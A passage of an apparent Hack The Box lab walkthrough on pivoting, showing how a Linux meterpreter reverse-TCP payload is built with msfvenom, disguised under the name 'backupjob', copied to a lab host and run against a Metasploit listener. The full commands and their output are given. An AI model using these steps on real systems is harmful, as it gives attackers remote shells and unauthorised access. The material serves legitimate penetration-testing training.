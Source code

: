 Create a payload for linux.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.53 -f elf -o backupjob LPORT=8080
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Copy the payload to the machine.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ scp backupjob ubuntu@10.129.50.188:~/                           
The authenticity of host '10.129.50.188 (10.129.50.188)' can't be established.
ubuntu@10.129.50.188's password: 
backupjob                                                                          100%  250     6.5KB/s   00:00 
```

Setup a listner for the payload with metasploit.

```
┌──(kali㉿kali)-[~]
└─$ msfconsole -q                                                                                             
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080
```

`ssh` into the Linux machine and execute the payload.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ ssh ubuntu@10.129.50.188  
ubuntu@10.129.50.188's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
(...)
Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$ ls
backupjob
ubuntu@WEB01:~$ chmod +x backupjob
ubuntu@WEB01:~$ ./backupjob
```
